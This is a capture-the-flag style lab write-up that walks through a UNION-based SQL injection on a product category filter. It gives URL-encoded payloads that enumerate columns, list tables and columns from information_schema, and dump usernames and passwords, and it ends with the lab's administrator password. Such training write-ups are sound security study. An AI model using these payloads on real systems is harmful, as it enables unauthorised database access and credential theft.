

# Lab: SQL injection attack, listing the database contents on non-Oracle databases


## Lab Information

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.


## Steps to Reproduce


### Finding number of Columns

- We need to first find the number of columns in the `Category` list.
- Intercept the HTTP request using BurpSuite and then modify it using the below payload.

```sql
'+ORDER+BY+3--
```

- The above payload gives **Internal Server Error** so total columns are **2**.

### Finding String type 

- Now we need to find the position of column which is compatible with string type value using the below payload.
- After using the below payload we get no error indicating both the columns are returning string datatype value.

```sql
'+UNION+SELECT+'a',+'b'--
```

### Finding Table Names

- Using the below payload we can find the table names in the database.
- We will query to the `information_schema.tables` table. This is a special table which contains info about other tables.

```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

- This will provide us with a list of tables but we are only interested in this table `users_rmjuxw`.

### Finding Column Details of `users` table

- Using the below payload we can find the column details of the `users_rmjuxw` table.

```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_rmjuxw'--
```

- Using the above payload revealed us the necessary columns.


### Getting `administrator` Credentials

- Using the below payload we can get the administrator credentials.

```sql
'+UNION+SELECT+username_adaodk,+password_mqvhef+FROM+users_rmjuxw--
```

We gathered the below credentials

- **username** = `administrator` and  **password** = `qkdus5snq6bvoskn481b`


### Logging in 

- Give the gathered `administrator` credentials to login.



